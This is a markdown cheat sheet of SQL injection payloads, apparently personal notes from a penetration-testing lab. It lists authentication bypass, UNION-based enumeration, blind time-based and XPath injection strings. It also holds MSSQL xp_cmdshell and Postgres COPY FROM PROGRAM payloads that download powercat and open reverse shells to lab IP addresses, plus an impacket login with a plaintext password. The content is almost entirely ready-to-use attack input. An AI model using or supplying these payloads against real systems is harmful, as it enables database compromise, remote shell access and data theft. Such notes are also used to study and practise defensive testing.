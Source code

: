 # Basic SQLI
```bash
' OR 1=1 --
' OR 1=1 in (SELECT * FROM users) -- //

>For amount of columns
' ORDER BY 1-- //
```
-----------------------

# XP_CMDSHELL in mssql
```bash
'EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;--
'EXEC xp_cmdshell 'powershell -c "IEX (New-Object System.Net.Webclient).DownloadString(\"http://192.168.45.239/powercat.ps1\");powercat -c 192.168.45.239 -p 4444 -e powershell"';--
```

-----------------------

# CMD_EXEC in postgres
```bash
'CREATE TABLE cmd_exec(cmd_output text);--
'COPY cmd_exec FROM PROGRAM 'busybox nc 192.168.45.161 3245 -e /bin/bash';--
```

-----------------------

# Union select
```bash
username=' UNION SELECT 'nurhodelta','password','c','d','f','a','a' -- &password=password&login=
' UNION SELECT null, null, database(), user(), @@version  -- //

>Discovering database
' UNION SELECT null, null, database(), user(), @@version  -- //

>Discovering tables
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
```

-----------------------

# MSSQL
```bash
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
```

-----------------------

# BLIND
```bash
' AND IF (1=1, sleep(3),'false') -- //
```

-----------------------

# XPATH Injection
```bash
')] | //password%00
```

